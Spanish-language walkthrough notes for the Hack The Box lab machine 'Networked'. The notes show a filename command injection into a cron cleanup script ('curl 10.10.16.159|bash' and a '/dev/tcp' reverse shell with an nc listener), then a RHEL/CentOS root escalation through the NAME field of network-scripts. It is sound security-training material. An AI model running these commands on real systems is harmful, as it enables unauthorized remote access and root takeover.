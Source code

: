 ** Máquina Networked_HTB **
Tarea crontab que ejecuta 'check-attack.sh'.
Tarea que elimina los ficheros de /var/www/html/uploads.
Tarea que ejecuta una función: 
`/bin/rm -f $path$value`
Como ejemplo de cómo borraría un fichero subido a este directorio sería:  
`/bin/rm -f /var/www/html/uploads/s4vishell.php.jpg`

Secuestro sobre el nombre del fichero:
> Si nuestro fichero en vez de llamarse 's4vishell.php.jpg' se llamase 's4vishell.php.jpg; whoami'
> Esto provocaría que en el entorno de la shell, también se ejecutase la segunda instrucción a la hora de borrar el fichero.

Inyección de comandos (RCE):
> Creamos un archivo en /var/www/html/uploads
> `touch ";curl 10.10.16.159|bash"`
> Este archivo hará una petición web a un fichero index.html.
> En local, creamos fichero index.html
> `bash -i >& /dev/tcp/10.10.16.159/443 0>&1`
> Montamos servidor web para compartir index.html
> `python3 -m http.server 80`
> Abrimos puerto en escucha para recibir la reverse shell
> `nc -nlvp 443`
> Debemos esperar que la tarea crontab se ejecute y recibiremos una reverse shell como el usuario que esté ejecutando la tarea. En este caso específico es guly, por lo que estamos realizando un user-pivoting.

** Redhat/CentOS root through network-scripts **
https://seclists.org/fulldisclosure/2019/Apr/24

Los Network-Scripts, por ejemplo, ifcg-eth0, se utilizan para las conexiones de red. El aspecto es exactamente igual que los archivos .INI. Sin embargo, son provistos en Linux por Network Manager (dispatcher.d).

En este caso, el NAME = atributo que en estos scripts de red no se maneja correctamente. 
Si tiene un espacio en blanco en el nombre, hace que el sistema intente ejecutar lo que venga después del espacio en blanco. Lo que significa que todo lo que venga después del primero elemento, el nombre, se ejecutará como root.

Por ejemplo:

/etc/sysconfig/network-scripts/ifcfg-1337

NAME = Network /bin/id <= Tenga en cuenta el espacio en blanco, ejecutará el comando id
ONBOOT = sí
DISPOSITIVO = eth0

Otro ejemplo sería decirle que nos ejecute una bash, pero en este caso la ejecutará como el usuario root:
NAME = loquesea /bin/bash